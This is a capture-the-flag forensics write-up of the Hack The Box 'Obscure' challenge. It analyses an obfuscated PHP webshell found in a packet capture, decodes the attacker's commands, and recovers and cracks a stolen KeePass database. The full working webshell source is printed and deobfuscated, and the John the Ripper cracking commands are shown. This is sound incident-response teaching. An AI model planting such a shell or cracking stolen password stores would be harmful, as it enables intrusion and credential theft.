

# HTB - Obscure
> [Hackthebox](https://app.hackthebox.com) > Labs > [Challenges](https://app.hackthebox.com/challenges) > Forensics

# Challenge Description
An attacker has found a vulnerability in our web server that allows arbitrary PHP file upload in our Apache server. Suchlike, the hacker has uploaded a what seems to be like an obfuscated shell (support.php). We monitor our network 24/7 and generate logs from tcpdump (we provided the log file for the period of two minutes before we terminated the HTTP service for investigation), however, we need your help in analyzing and identifying commands the attacker wrote to understand what was compromised.

# ATT&CK Techniques discovered
* [Mitre T1190 - Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)
* [Mitre T1059 - Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/)
* [Mitre T1083 - File and Directory Discovery](https://attack.mitre.org/techniques/T1083/)
* [Mitre T1005 - Data from Local System](https://attack.mitre.org/techniques/T1005/)
* [Mitre T1011 - Exfiltration Over Other Network Medium](https://attack.mitre.org/techniques/T1011/)

# Step by Step

### 1.- Understand the problem
The attacked company told us that an attacker exploited a vulnerability in their Website, specifically a PHP application. The attacker uploaded an obfuscated shell and save it with the name `support.php` and that they have a TCPDUMP from the last 2 minutes before they terminated the connection.

First, let's review the files the response team gave to us.

19-05-21_22532255.pcap
command | result
--- | ---
name | 19-05-21_22532255.pcap
file | 19-05-21_22532255.pcap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Linux cooked v1, capture length 262144)
sha256sum | d1a29d09ce6ebe6186f0436f159dda623660b19e8f1e22622a57ab4bd129146b 19-05-21_22532255.pcap
VirusTotal Search | https://www.virustotal.com/gui/file/d1a29d09ce6ebe6186f0436f159dda623660b19e8f1e22622a57ab4bd129146b 19-05-21_22532255.pcap (found)
name | support.php
file | support.php: PHP script, ASCII text
sha256sum | 48e40f0704c780263397a6c6f661f8e1cb790c07fdcacfb9a031ca89a7520f4a support.php
VirusTotal Search | https://www.virustotal.com/gui/file/48e40f0704c780263397a6c6f661f8e1cb790c07fdcacfb9a031ca89a7520f4a support.php (found)
name | to-do.txt
file | to-do.txt: ASCII text, with very long lines (501)
sha256sum | 568990d0e1828b36d4280eaf5cd18f80899543b6abe9f919d811fe7990b2b064 to-do.txt
VirusTotal Search | not found

We can safely ignore `to-do.txt` since it is the same description that we had at the start of this challenge. The next file `support.php` looks like an obfuscated shell and since we found it in VirusTotal we can safely say that. Let's review the code

### 2.- Exploring `support.php` shell
Let us take a quick look to this PHP Script
```php
<?php
$V='$k="80eu)u)32263";$khu)=u)"6f8af44u)abea0";$kf=u)"35103u)u)9f4a7b5";$pu)="0UlYu)yJHG87Eu)JqEz6u)"u)u);function u)x($';
$P='++)u){$o.=u)$t{u)$i}^$k{$j};}}u)retuu)rn $o;}u)if(u)@pregu)_u)match("/$kh(.u)+)$kf/",@u)u)file_u)getu)_cu)ontents(';
$d='u)t,$k){u)$c=strlu)en($k);$l=strlenu)($t)u);u)$o=""u);for($i=0u);u)$i<$l;){for(u)$j=0;(u)$u)j<$c&&$i<$l)u)u);$j++,$i';
$B='ob_get_cou)ntu)ents();@obu)_end_cleu)anu)();$r=@basu)e64_eu)ncu)ode(@x(@gzu)compress(u)$o),u)$k));pru)u)int(u)"$p$kh$r$kf");}';
$N=str_replace('FD','','FDcreFDateFD_fFDuncFDFDtion');
$c='"php://u)input"),$u)m)==1){@u)obu)_start();u)@evau)l(@gzuu)ncu)ompress(@x(@bau)se64_u)decodu)e($u)m[1]),$k))u));$u)ou)=@';
$u=str_replace('u)','',$V.$d.$P.$c.$B);
$x=$N('',$u);$x();
?>
```

With some tinkering, and code sorting, we realized that variables `V, P, d, B, c` are just part of the shell. The important ones are `$N` and `$u`. Using a PHP Interpreter (I used this docker image to play with it)
> `docker run --rm -v ${pwd}:/mnt/ -it php bash`

I'm not going to explain the usage of Docker for the purpose of this Write Up, but I strongly recommend you learn it.

Let us move on. As mentioned before variables `$N` and `$u` are what we need to explore here. If you check using the interpreter `$N` value is `create_function`, a PHP function that allow the system to build functions during execution time. This is usually used by attackers to obfuscate their shells. As we continue, we realize that the shell content is in `$u` variable. The last part of the script (`$x=$N('',$u);$x();`) is just to execute the shell.

**`$u` content:**
```php
$k="80e32263";$kh="6f8af44abea0";$kf="351039f4a7b5";$p="0UlYyJHG87EJqEz6";function x($t,$k){$c=strlen($k);$l=strlen($t);$o="";for($i=0;$i<$l;){for($j=0;($j<$c&&$i<$l);$j++,$i++){$o.=$t{$i}^$k{$j};}}return $o;}if(@preg_match("/$kh(.+)$kf/",@file_get_contents("php://input"),$m)==1){@ob_start();@eval(@gzuncompress(@x(@base64_decode($m[1]),$k)));$o=@ob_get_contents();@ob_end_clean();$r=@base64_encode(@x(@gzcompress($o),$k));print("$p$kh$r$kf");}
```

Our next step will be to prettify the code to have a better understanding of it. I already did that for you. 

```php
<?
# Variables for obfuscation
$k="80e32263";
$kh="6f8af44abea0";
$kf="351039f4a7b5";
$p="0UlYyJHG87EJqEz6";

# Obfuscation method
function x($t,$k){
    $c=strlen($k);
    $l=strlen($t);
    $o=""; for($i=0;$i<$l;){
        for($j=0;($j<$c&&$i<$l);$j++,$i++){
            $o.=$t[$i]^$k[$j];  // ^ operator is reversible
        }
    }
    
    return $o;
}

# Receive inputs
if(@preg_match("/$kh(.+)$kf/", @file_get_contents("php://input"), $m)==1) {
    # Process the HTTP obfuscated request
    @ob_start();
    @eval(@gzuncompress(@x(@base64_decode($m[1]),$k)));
    $o=@ob_get_contents();
    @ob_end_clean();

    # Creates an obfuscated response
    $r=@base64_encode(@x(@gzcompress($o),$k));
    print("$p$kh$r$kf");
}

?>
```

For this part, and for the following ones, you will need to understand PHP, how it works and [read the documentation](https://www.php.net/docs.php). I will not dive into the code small parts, if you want to talk about it you can contact me. In simple terms this shell does the following:
1. Defines variables for the obfuscation.
2. defines an obfuscation function called `x($t,$k)`. Obfuscation is bidirectional thanks to the `^` operator.
3. Receives an [INPUT](https://www.php.net/manual/en/function.file-get-contents.php) and filter it with [preg_match](https://www.php.net/manual/en/function.preg-match) to remove obfuscation words.
4. Get the HTTP request payload, decodes it and then [uncompress](https://www.php.net/manual/en/function.gzuncompress).
5. Using [eval](https://www.php.net/manual/en/function.eval) executes the requested command on the server.
6. Prepares the output of the command [compressing](https://www.php.net/manual/en/function.gzcompress.php) it, encoding it in base64.
7. Return the output to the user (response) wrapping the data in between `$p$kh` and `$kf` variables.

I really hope you understand what happened there hehe, if not, learn PHP and come back! I will wait here.

The shell is straightforward, it receives obfuscated commands and respond obfuscated outputs of those commands. Let us see what we have in the PCAP now.

### 3.- Exploring PCAP
PCAP are Packet captures from the network, they are helpful to understand what happened at a network level. They contain all the information that was transfered FROM and TO the attacked server. To explore them we are going to use a tool called [Wireshark](https://www.wireshark.org/).

Open the `19-05-21_22532255.pcap` file using Wireshark.


Here we have 496 different packets, remember that this is all the information that was captured minutes before the attacked machine was disconnected from the network.

Since we already know that there was communication between the attacker and the shell (support.php) we can filter that using Wireshark filters. We are going to use two filters:
* **`http`:** To filter only HTTP packets
* **`tcp contains support.php`:** To filter al requests containing the shell.


Thanks to this filter, we can see 4 communications between the attacker and the server using the shell. All of them were `POST` requests. To get its contents we are going to follow the HTTP Stream of each one of them.



You can check [this file](files/http_follows.md) to check all four HTTP Streams. 

Now that we have what data was requested by the attacker and responded by the server, and that its clearly obfuscated, we need to create a deobfuscator based on the shell we got from `$u` variable.

### 4.- Creating a deobfuscator
To create a deobfuscator, you **must** understand what happened in section 2 when we explore the Shell. Let us start with the code that will help us to get the code that was sent by the attacker.

```php
function x($t,$k){
    $c=strlen($k);
    $l=strlen($t);
    $o=""; for($i=0;$i<$l;){
        for($j=0;($j<$c&&$i<$l);$j++,$i++){
            $o .= $t[$i] ^ $k[$j];
        }
    }
    
    return $o;
}

function decode_request($encoded_request){
    $m = "";
    preg_match("/6f8af44abea0(.+)351039f4a7b5/", $encoded_request, $m);
    $command_requested = gzuncompress(x(base64_decode($m[1]), "80e32263"));
    return $command_requested;
}

$request = "ATTACKER_REQUEST_HERE";
echo decode_request($request);
```

This is just the same part as the shell, but I removed the `eval` part and just printed the output. Now, let us get the response part.

For this one it is a little bit tricky, since we need to reverse the operation that the shell does after getting the output of the commands the attacker sent.

```php
# Creates an obfuscated response
$r=@base64_encode(@x(@gzcompress($o),$k));
print("$p$kh$r$kf");
```

Here you can see that the output was saved in variable `$o`, then compressed using `gzcompress`, then obfuscated using the `x($t,$k)` function, and finally encoded in Base64 with `base64_encode`. This is all saved in `$r` that is printed enclosed by `$p$kh` and `$kr`. What is printed by the shell is what we found as Server response in the PCAP file. To create our deobfuscator we need to reverse this process.

```php
function decode_response($encoded_response){
    $m = "";
    preg_match("/0UlYyJHG87EJqEz66f8af44abea0(.+)351039f4a7b5/", $encoded_response, $m);
    $r_decoded = gzuncompress(x(base64_decode($m[1]), "80e32263"));
    return $r_decoded;
}
```

With that, we can get the attacker REQUEST and server RESPONSE of this cyberattack. I uploaded the file [decoder.php](files/decoder.php) so you can have it if you want.

Using our decoded we can get all the communications between the attacker and the server. You can check the interaction [here](files/decoded_commands.md).

### 5.- Analyzing the communication
Now we have a clearer image of what the attacked did with his uploaded shell. First the attacker checked his privileges with the command `id`. After that listed all the files within the `/home/*` directory, finding an interesting file named `pwdb.kdbx`. This file extension relates with a [KeePass 2](https://keepass.info/) Password Manager database file.

The third command was just to get the absolute path of the KeePass file and finally it downloads it with the fourth command. Keep in mind that it is extracting the base64 encoding of the `pwdb.kdbx` file. Thanks to our decoder we have that response from the server, so we can rebuild the `pwdb.kdbx`.

We saved the base64 content in a file named [kdbx_b64](files/kdbx_b64) and then used the terminal to decode it back to the `pwdb.kdbx` original file.

```bash
base64 --decode kdbx_b64 > pwdb.kdbx
```

command | result
--- | ---
name | pwdb.kdbx
file | pwdb.kdbx: Keepass password database 2.x KDBX
sha256sum | 71db76ac5b4806a64086ce611676f959341a92e65c099a41c59b3594f0d5a63b pwdb.kdbx
VirusTotal Search | https://www.virustotal.com/gui/file/71db76ac5b4806a64086ce611676f959341a92e65c099a41c59b3594f0d5a63b pwdb.kdbx (found)

We can confirm that the attacker used this PHP-Shell to exfiltrate a password database manager file from the server.

Sadly, if we try to open this file on KeePass it is asking for the password.

> Forensic notes: Sometimes, during forensic engagements, you need to go further and crack some things to fully understand the extent of the attack. This helps the company to understand what was stolen and what are the repercussions.

### 6.- Cracking the KeePass file
For this step we are going to use a tool from the Kali Linux repository called `keepass2john` along with `johntheripper` to brute force the password. We are going to stick with the rockyou.txt password dictionary. I will not dive into password cracking, but I'll leave this [link](https://www.section.io/engineering-education/password-cracking-with-john-the-ripper/) for the reader's research.

```bash
> keepass2john pwdb.kdbx > pwdb_hash.txt
> john --wordlist=/usr/share/wordlists/rockyou.txt pwdb_hash.txt --force

Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 6000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
chainsaw         (pwdb)     
1g 0:00:00:03 DONE (2022-07-10 14:04) 0.3311g/s 7109p/s 7109c/s 7109C/s cholita..amanda11
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

The password of the file is `chainsaw`. Using that with the KeePass database allow us to open it.


w00t! We got our flag.
`HTB{REDACTED}`

That is the only thing that the attacker stole!

Happy hunting!


# Wrapping up & Comments
In this scenario we have an attacker that exploited a web vulnerability to upload an obfuscated PHP-Webshell ([Mitre T1190](https://attack.mitre.org/techniques/T1190/)). Using that shell ([Mitre T1059](https://attack.mitre.org/techniques/T1059/)), the attacker proceeded to list the files within the server ([Mitre T1083](https://attack.mitre.org/techniques/T1083/)) finding and exfiltrating ( [Mitre T1005](https://attack.mitre.org/techniques/T1005/) / [Mitre T1011](https://attack.mitre.org/techniques/T1011/)) a KeePass database. Gladly, the attacked server was disconnected and the team got all the information that we needed to discover what the attacker stole.


This challenge was a little bit harder that the others because the investigator needed to know PHP Coding, Network Analysis tool, Password cracking skills and knowledge on how WebShells works. Nonetheless was a great exercise! I really encourage people to not only stick to learn how to use software, but Computer Science fundamentals as well.

**Takeaways**
* Having enough evidence recollected greatly improves response times and understanding!
* In order to be a good investigator, you must know several programming languages, understand how system works and have skills in Network analysis.
* Have your tools ready, like Docker, VirtualMachines and Scripts to be efficient during Incident Responses.
